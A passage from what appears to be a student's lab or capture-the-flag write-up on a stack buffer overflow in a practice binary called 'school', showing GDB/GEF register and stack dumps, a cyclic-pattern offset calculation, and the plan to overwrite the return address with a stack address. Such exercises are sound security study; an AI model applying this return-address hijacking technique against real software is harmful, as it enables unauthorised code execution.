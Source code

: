 ```
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdf18  →  0x00007fffffffe29b  →  "SHELL=/usr/bin/zsh"
$r14   : 0x0               
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000
```
###### Stack:
```
0x00007fffffffddf8│+0x0000: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"     ← $rsp
0x00007fffffffde00│+0x0008: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0x00007fffffffde08│+0x0010: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffde10│+0x0018: "qaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffde18│+0x0020: "saaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffde20│+0x0028: "uaaavaaawaaaxaaayaaa"
0x00007fffffffde28│+0x0030: "waaaxaaayaaa"
0x00007fffffffde30│+0x0038: 0x0000000061616179 ("yaaa"?)
```
###### Where in Code:
```
     0x400676 <main+69>        call   0x4004d0 <printf@plt>
     0x40067b <main+74>        mov    eax, 0x0
     0x400680 <main+79>        leave  
 →   0x400681 <main+80>        ret  
```

So this happened at when `main` tried to pop a value of the stack and `return`
I think then, by putting a stack address at the 40th character, it will try to return to that and run

##### Calculating Offset In Another Way
###### Initialize input variable and run code
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ pwn cyclic 100 > inp
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ gdb ./school -q     
GEF for linux ready, type `gef' to start, `gef config' to configure
88 commands loaded and 5 functions added for GDB 13.2 in 0.00ms using Python engine 3.11
Reading symbols from ./school...
(No debugging symbols found in ./school)
gef➤  r < inp
Starting program: /home/kali/Desktop/5-Week/school < inp
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Let's go to school! School's at: 0x7fffffffddb0. gimme directions:
Hi, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Program received signal SIGSEGV, Segmentation fault.
```
###### Registers:
```
$rax   : 0x0               
$rbx   : 0x00007fffffffdee8  →  0x00007fffffffe250  →  "/home/kali/Desktop/5-Week/school"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffddd8  →  "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00007fffffffdc00  →  "Hi, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaala[...]"
$rdi   : 0x00007fffffffdbd0  →  0x00007fffffffdc00  →  "Hi, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaala[...]"
$rip   : 0x0000000000400681  →  <main+80> ret 
$r8    : 0x73              
```